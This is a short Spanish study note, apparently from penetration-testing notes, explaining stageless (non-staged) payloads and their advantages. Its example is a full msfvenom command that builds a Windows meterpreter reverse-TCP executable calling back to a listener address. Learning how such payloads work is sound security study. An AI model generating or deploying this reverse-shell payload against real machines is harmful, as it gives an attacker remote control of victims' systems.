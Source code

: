 Envían los paquetes de forma no fragmentada

Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.
## Ventajas
Al ser mucho más grande se incluye todo el código  necesario para poder desplegar o ejecutar la función deseada
es más rápida porque no requiere muchas etapas

## Ejemplos
```
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe
```

